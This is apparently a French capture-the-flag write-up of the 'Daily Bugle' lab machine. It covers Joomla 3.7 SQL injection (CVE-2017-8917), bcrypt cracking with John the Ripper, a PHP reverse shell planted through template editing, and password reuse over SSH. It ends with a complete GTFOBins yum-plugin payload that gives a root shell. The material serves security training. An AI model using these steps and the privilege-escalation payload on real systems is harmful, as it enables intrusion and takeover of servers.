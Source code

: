 # Daily Bugle

- Difficulté : Hard (pas trop quand même)
- Linux
- Joomla | CVE-2017-8917
- SQLi
- Yum

## Énumération

### Nmap

```bash
sudo nmap -sC -sV -O -oN enum/nmap -vv 10.10.252.22

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68ed7b197fed14e618986dc58830aae9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCbp89KqmXj7Xx84uhisjiT7pGPYepXVTr4MnPu1P4fnlWzevm6BjeQgDBnoRVhddsjHhI1k+xdnahjcv6kykfT3mSeljfy+jRc+2ejMB95oK2AGycavgOfF4FLPYtd5J97WqRmu2ZC2sQUvbGMUsrNaKLAVdWRIqO5OO07WIGtr3c2ZsM417TTcTsSh1Cjhx3F+gbgi0BbBAN3sQqySa91AFruPA+m0R9JnDX5rzXmhWwzAM1Y8R72c4XKXRXdQT9szyyEiEwaXyT0p6XiaaDyxT2WMXTZEBSUKOHUQiUhX7JjBaeVvuX4ITG+W8zpZ6uXUrUySytuzMXlPyfMBy8B
|   256 5cd682dab219e33799fb96820870ee9d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKb+wNoVp40Na4/Ycep7p++QQiOmDvP550H86ivDdM/7XF9mqOfdhWK0rrvkwq9EDZqibDZr3vL8MtwuMVV5Src=
|   256 d2a975cf2f1ef5444f0b13c20fd737cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP4TcvlwCGpiawPyNCkuXTK5CCpat+Bv8LycyNdiTJHX
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-title: Home
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
| http-methods: 
|_  Supported Methods: OPTIONS
3306/tcp open  mysql   syn-ack ttl 63 MariaDB (unauthorized)
```

### robots.txt

```bash
# If the Joomla site is installed within a folder 
# eg www.example.com/joomla/ then the robots.txt file 
# MUST be moved to the site root 
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths. 
# eg the Disallow rule for the /administrator/ folder MUST 
# be changed to read 
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/orig.html
#
# For syntax checking, see:
# http://tool.motoricerca.info/robots-checker.phtml

User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

## Port 80 | HTTP

### Joomla version 3.7

Pour déterminer la version de Joomla, je me suis rendu dans le README.txt qui se trouve à la racine du serveur. Nous pouvons trouver à la première ligne la version qu’utilise Joomla.

Nous pouvons en déduire en regardant sur internet que cette version est vulnérable à une SQLi.

Explication de la vulnérabilité : 

[SQL Injection Vulnerability in Joomla! 3.7](https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html)

Sur Github, nous pouvons trouver ce script pour pouvoir exploiter cette vulnérabilité : 

[https://github.com/stefanlucas/Exploit-Joomla](https://github.com/stefanlucas/Exploit-Joomla)

En un rien de temps, le script dump la database. Nous trouvons le nom d’utilisateur Jonah ainsi que son password hashé en Bcrypt.

![Untitled](https://user-images.githubusercontent.com/68467919/209440130-aaa08dab-6ac2-409b-b602-6cbbe7e91487.png)

### John the ripper

Nous crackons le mot de passe grâce à JohnTheRipper. Au bout de 5 minutes nous avons retrouvé le mot de passe.

```bash
john --format=bcrypt --wordlist=rockyou.txt password.hash

spiderman123     (?)
```

### Panel Joomla

Désormais, nous pouvons nous connecter au panel administrateur grâce aux identifiants que nous avons trouvé !

![Untitled 1](https://user-images.githubusercontent.com/68467919/209440136-d49f8458-1766-49a6-8b7d-508d434baa1a.png)

### Reverse-Shell

Pour pouvoir obtenir un reverse-shell sur Joomla il suffit de modifier la template et de remplacer le code existant par notre script php. Pour ça, nous devons nous rendre dans **Extensions → Templates → Templates**. Ensuite nous sélectionnons la template que nous voulons modifier, par exemple Beez3.

![Untitled 2](https://user-images.githubusercontent.com/68467919/209440141-ac291afa-71b6-43f7-b763-73634b6ac7d3.png)

Dans index.php, nous remplaçons donc le code par notre script et nous enregistrons les modifications.

Après avoir sauvegarder les modifications, nous lançons notre listener puis nous cliquons sur “preview”.

![Untitled 3](https://user-images.githubusercontent.com/68467919/209440146-1d1c2196-54ab-4eeb-8fd8-6503a806a2cb.png)

## JJameson | Flag 1

![Untitled 4](https://user-images.githubusercontent.com/68467919/209440151-26327f26-c7af-441a-9cb8-482cc5f8e39f.png)

Nous pouvons escalader nos privilèges en nous connectant à la session de jjameson. Il est possible de trouver son mot de passe dans /var/www/html/configuration.php et nous pouvons trouver un mot de passe qui nous permettrait de nous connecter à la base de donnée. Nous pouvons réutiliser le mot de passe pour nous connecter en tant que jjameson via SSH.

![Untitled 5](https://user-images.githubusercontent.com/68467919/209440153-a7c9550f-9fc2-422b-8b24-f29467c2d6e2.png)

![Untitled 6](https://user-images.githubusercontent.com/68467919/209440155-f2728103-d0a1-4aea-b9ce-804a5e8183bf.png)

Nous pouvons trouver le flag de jjameson dans son home directory.

## Root | Root Flag

Vu que nous avons le mot de passe de jjameson, nous pouvons voir si nous pouvons exécuter des commandes avec les mêmes droits qu’un autre utilisateur.

```bash
[jjameson@dailybugle ~]$ sudo -l
Entrées par défaut pour jjameson sur dailybugle :
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME
    HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

L'utilisateur jjameson peut utiliser les commandes suivantes sur dailybugle :
    (ALL) NOPASSWD: /usr/bin/yum
```

Nous pouvons voir que nous avons le droit d’exécuter le binaire yum. En regardant sur GTFOBins, nous pouvons voir qu’il est possible d’exécuter les commandes ci-dessous pour pouvoir essayer de faire spawn un shell interactif en tant que root ! 

```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

![Untitled 7](https://user-images.githubusercontent.com/68467919/209440165-9a517971-452d-4060-8cb5-738ae5b856d8.png)

ROOTED !!
